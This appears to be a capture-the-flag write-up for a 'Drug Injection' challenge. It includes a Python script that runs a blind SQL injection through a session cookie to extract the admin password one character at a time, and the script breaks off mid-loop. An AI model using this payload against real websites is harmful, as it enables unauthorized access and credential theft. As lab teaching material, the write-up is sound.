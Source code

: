## Drug Injection Challenge Solution

### Introduction
This script is designed to solve the Drug Injection challenge, which involves SQL injection on a login page.

### Challenge Details
I made a Drug awareness website for my Drug Addict friend as a joke to help him get over his addiction. He kept complaining about not being able to login. He Scored an injection drug. I tried to convince him that he should stop getting High before he tries to login. injections won't always help u to get HIGHer access. He was not satisfied with just a single injection, he wanted to try Double Dose. How do I convince him to stop. Help me spread awareness.

### Script Description
Flag is the admin's password.

There are 2 points where you can inject your payload and perform SQL injection.
1. Login page
2. Cookie value (as the cookie is directly taken from the database according to the username)

Here is the script for the end point 2: 

```python
import requests

# Welcome page URL of the challenge
url = '<url>/welcome.php'

r = requests.Session()

cookie1 = {
    'Session': '<Your cookie value>'
}

res = r.get(url=url, cookies=cookie1)

char_set = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_}{"

sess_cookie = cookie1['Session']
print(sess_cookie)

count = 1
password = ''
while count <= 57:
    for char in char_set:
        # SQL injection payload
        payload = "' AND (SELECT SUBSTRING(password, " + str(count) + ", 1) FROM users WHERE username='admin')='" + char
        cookie = {'Session': sess_cookie + payload}
        test = r.get(url=url, cookies=cookie)

        if "Welcome, Sir!" in test.text:
            password += char
            print(f"[+] password: {password}")
            count += 1
